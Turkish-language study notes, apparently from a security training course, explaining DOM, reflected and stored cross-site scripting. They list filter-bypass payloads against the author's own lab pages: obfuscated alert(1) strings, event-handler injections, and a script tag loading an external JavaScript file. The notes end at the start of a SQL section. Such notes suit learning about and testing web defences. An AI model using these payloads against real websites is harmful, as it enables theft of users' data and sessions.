 - Eğer gerekli kod güvenlikleri alınmamışsa, kullanıcıların bilgilerini çalmak için kullanılır.

**1) DOM:**

**2) Reflected:** URL kısmındaki parametrelerde olur. Parametreye verdiğimiz kod o anda çalışır ve sunucuda depolanmaz.

**3) Stored:** Forma gönderdiğimiz verileri arkada depolar, oraya giren herkeste bizim oraya gömdüğümüz kod çalışır.

- Javascript, URL ve HTML'i encode ederek filtreleri bypass edebiliriz. URL encode örnek: %2527(?) -> %25 tekrar % oluyor, filtreden sonra sonuç: -> %27

## Örnekler

	=> melihzeytun.com/xss/index2.php?test="qwe'qw 	(Kaynağı görüntülediğimizde test parametresine verdiğimiz değerlerin nereye basıldığını görürüz.)

	=> http://melihzeytun.com/xss/index3.php?test=0;alert(1)	(Reflected XSS)

	=> http://melihzeytun.com/siberkamp/vulns/xss/xss1.php?url=<payload>
		url=aalertlalertealertralerttalert(1); 
		url=alalertert(1);

	=> http://melihzeytun.com/siberkamp/vulns/xss/xss2.php?url=<payload>
		url=" onclick="alalertert(1);
	
	=> http://melihzeytun.com/siberkamp/vulns/xss/xss3.php?url=<payload>
		" oncalertlick="alalertert(1);
		" onmouse;over="alalertert(1);
		" on;click="alalert(1);
		javascr;ipt:alalertert(1);
		javascralertipt:alalertert(1);

- Eğer değerin içerisine bir şey enjekte edemiyorsak, değerin dışına çıkmayı denemeliyiz.

		=> http://melihzeytun.com/siberkamp/vulns/xss/xss4.php?url=<payload>
			lol" accesskey="C" onclick="alalertert(1)
			alt + C bastığımızda onclick fonksiyonu tetiklenecek.

		=> http://melihzeytun.com/xss/upper.php?xss=<payload>
			<script src='HTTP://MELIHZEYTUN.COM/JS/SCR.JS'></script>

## Angular JS

- Kaynak kodda .js ile biten dosyalara bakarız. JS dosyalarının en üstünde Angular JS olduğuna dair bir mesaj vardır. 

		B> portswigger angularjs
		B> http://blog.portswigger.net/2016/01/xss-without-html-client-side-template.html 	(Örnek exploit'ler)

## SQL 

**- CREATE:** Tablo oluşturma fonksiyonu
